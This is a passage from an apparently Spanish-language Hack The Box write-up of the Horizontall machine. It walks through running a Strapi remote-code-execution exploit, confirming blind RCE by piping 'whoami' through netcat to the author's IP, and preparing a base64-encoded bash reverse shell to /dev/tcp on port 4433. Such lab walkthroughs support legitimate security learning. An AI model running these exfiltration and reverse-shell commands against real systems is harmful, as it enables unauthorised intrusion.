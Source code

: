 Descargamos el exploit a nuestra máquina y vemos su uso:

```bash
❱ python3 strapi_betaRCE.py 
[-] Wrong number of arguments provided
[*] Usage: python3 exploit.py <URL>
```

Únicamente debemos pasarle la URL donde esta sirviendo **Strapi**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_strapiPY_VULNERABLE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Bien, es vulnerable y la contraseña del usuario `admin` ha sido cambiada. El exploit nos brinda una fake-shell para indicarle que comandos ejecutar, intentemos ver quien somos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_strapiPY_blindRCE_whoamiFAIL.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

No obtenemos el resultado, pero el propio output nos indica el porqué, la explotación es blind, o sea, no nos va a devolver X resultado como output, por lo tanto, para confirmar que si hay **RCE** podemos enviar el resultado del comando `whoami` por medio de `netcat`, esperemos que exista, si no, directamente probamos a generar una reverse shell.

La idea es levantar un servidor en algún puerto, así por ejemplo:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Y desde la fake-shell ejecutar:

```bash
whoami | nc <attacker_ip> 4433
whoami | nc 10.10.14.78 4433
```

Lo que hace es ejecutar el comando `whoami` y el resultado enviarlo al servidor de la IP `10.10.14.78` (mi IP) y el puerto `4433` (mi puerto), si existe el RCE (y si existe `nc` en la máquina), deberíamos obtener el resultado, veamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/horizontall/374bash_strapiPY_whoamiNC_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Peeeeerfectísimo, el comando da como resultado al usuario `strapi`, así que existe el **RCE**, generemos una reverse shell (una terminal, algo que nos permita entrar directamente al sistema e interacción completa con él):

Volvemos a ponernos en escucha por un puerto, yo tomare de nuevo el `4433`:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Hay [varias maneras de generar una Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), yo la haré así:

* Pasamos el comando a `base64`, así evitamos que se corrompa la instrucción al ejecutarla:

  ```bash
  ❱ echo "bash -i >& /dev/tcp/10.10.14.78/4433 0>&1" | base64
  YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC80NDMzIDA+JjEK
  ```
